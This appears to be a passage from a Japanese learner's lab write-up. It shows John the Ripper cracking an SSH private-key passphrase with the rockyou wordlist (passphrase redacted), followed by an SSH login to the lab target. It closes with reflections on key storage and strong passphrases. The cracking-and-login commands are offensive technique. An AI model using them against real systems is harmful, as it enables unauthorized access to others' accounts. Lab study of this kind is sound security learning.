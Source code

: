 ```bash
# 変換したハッシュを対象にパスワードリストで解析
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
{xxxxxxxx}          (hanako_id_rsa)     
1g 0:00:00:00 DONE (2025-07-29 23:25) 3.846g/s 318276p/s 318276c/s 318276C/s bird..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
`{xxxxxxxx}`がパスフレーズです。
これでSSH接続しましょう。
```bash
$ ssh -i hanako_id_rsa hanako@10.10.138.120
Enter passphrase for key 'hanako_id_rsa': 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue 29 Jul 2025 10:25:49 AM EDT

  System load:  0.0                Processes:             111
  Usage of /:   49.8% of 13.62GB   Users logged in:       1
  Memory usage: 44%                IPv4 address for eth0: 10.10.138.120
  Swap usage:   0%

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Sun Jun 22 13:40:04 2025 from 10.23.8.228
```
サーバは我が手中に堕ちました。

# やってみて
当たり前のようにクラッキングツールがLinuxのディストリビューションに含まれていて、誰でも試すことができるという状態に驚きを感じました。  
秘密鍵からパスフレーズまで割り出される可能性も驚きました。SSHキーの安全な保管と強固なパスワードの設定は、今後も気をつけようと思います。
また、教科書通りの勉強を試してみることでより定着したかなと思います。  
私自身が別にセキュリティを専門にしているわけではないのですが、生きた知識としてDay3以降も続けていこうと思います。